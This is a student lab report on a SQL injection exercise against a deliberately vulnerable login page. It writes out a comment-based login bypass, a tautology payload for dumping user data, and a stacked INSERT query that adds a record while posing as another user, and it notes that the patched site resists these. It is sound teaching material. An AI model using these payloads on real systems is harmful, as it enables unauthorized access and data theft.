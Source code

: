 ## Project 4 Report

### Task 1
- **Goal**: Impersonate an exitsting user without providing the password.
- Command use: `Cat'#` 
  - This command exploits the vulnerability of the SQL injection in the login page.
- The picture below show that the command `Cat'#` has been executed successfully.

![Task1](Graphic/Task1.png)

### Task 2
- Steal the user information from the database.
- Command use: `Cat' OR '1==1'#`
- The picture below show that the command `Cat' OR '1==1'#` has been executed successfully.

![Task2](Graphic/Task2_Database.png)
### Task 3
- Insert a new record into the table. The following picture have the code I use to insert a new record into the table. I pretend to be user **David** to insert a new record into user **cat**'s table.
- Command use:

```sql
David'; INSERT INTO users(first, uname, passwd, profile) VALUES('cat', 'cat', PASSWORD(
'cat'),'Injection success')#
```
- The picture below show that the new record has been inserted successfully.

![Task3](Graphic/Task3_Injection.png)

- The picture below show the table after the new record has been inserted.

![Task3](Graphic/Task3_NewInfo.png)

### Task 4
- None of the attack shown above will work in the new website. Since the new website has been modified to prevent SQL injection attack. The following picture show that the command `Jacob'#` will not work in the new website.

![Task4](Graphic/Task4.png)